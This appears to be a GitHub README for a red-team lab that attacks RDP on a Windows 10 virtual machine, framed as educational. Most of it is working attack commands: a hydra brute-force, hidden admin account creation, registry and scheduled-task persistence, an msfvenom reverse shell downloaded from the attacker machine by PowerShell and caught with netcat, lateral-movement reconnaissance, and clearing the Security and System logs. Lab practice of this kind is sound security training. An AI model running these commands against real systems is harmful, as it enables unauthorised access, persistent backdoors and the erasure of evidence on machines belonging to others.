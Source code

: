 Advanced RDP Red Teaming Lab

Disclaimer

> This project is for educational purposes only. All activities were conducted in a safe, isolated lab environment using virtual machines I own. Do not attempt this on any system you do not have explicit permission to test.




---

Table of Contents

Objective

Lab Setup

Recon & Scanning

RDP Brute-Force

Python Script

Access & Post-Exploitation

Privilege Escalation

Persistence

Backdoor Shell

Lateral Movement

Clean-Up

Reporting



---

Objective

Simulate a real-world red team operation by brute-forcing weak RDP credentials, then performing post-exploitation, persistence, and potential lateral movement on the compromised host.


---

Lab Setup

-attacker: kali linux

tools :hydra,nmap,xfreerdp,python

-victim:windows 10,

tools:RDP enabled,weak password 

-Network: Host only,isolated,no internet.

---

Recon & Scanning

Scan RDP port with Nmap:

nmap -p 3389 <target_ip>


---

RDP Brute-Force

Use hydra:

hydra -t 32 -vV -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<window ip>


Or use the Python script below.


---

Python Script

Run with:

python3 rdp_bruteforce.py


---

Access & Post-Exploitation

xfreerdp /u:Administrator /p:<password> /v:<target_ip> /cert:ignore

Inside RDP Session:

whoami
hostname
ipconfig /all
systeminfo
dir /s /b C:\\Users\\*.txt


---

Privilege Escalation

Check permissions:

whoami /groups

Run WinPEAS/SharpUp for local exploits (upload via RDP).

winPEAS.exe quiet cmd fast

 Look for:

AlwaysInstallElevated

Unquoted service paths

Weak service permissions



---

Persistence

Add hidden admin user:

net user sysadmin P@ssw0rd123 /add
net localgroup administrators sysadmin /add

Registry-based persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d "C:\\rev.exe"

Scheduled Task:

schtasks /create /tn "Updater" /tr "C:\\rev.exe" /sc onlogon


---

Backdoor Shell

Generate backdoor:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe -o rev.exe
python3 -m http.server 80

Download in RDP:

powershell -c "Invoke-WebRequest -Uri http://<kali_ip>/rev.exe -OutFile C:\\rev.exe"

Execute & catch:

nc -lvnp 4444


---

Lateral Movement

net view /domain
net view \\<hostname>

Reuse dumped credentials to access other machines if available.


---

Clean-Up

Clear logs (not recommended unless simulating attacker evasion):

wevtutil cl Security
wevtutil cl System

Delete backdoors, users, and payloads.


---

Reporting

Document:

Entry vector

Credentials cracked

Privilege escalation method

Persistence mechanism

Tools/scripts used

Detection logs

Mitigation recommendations





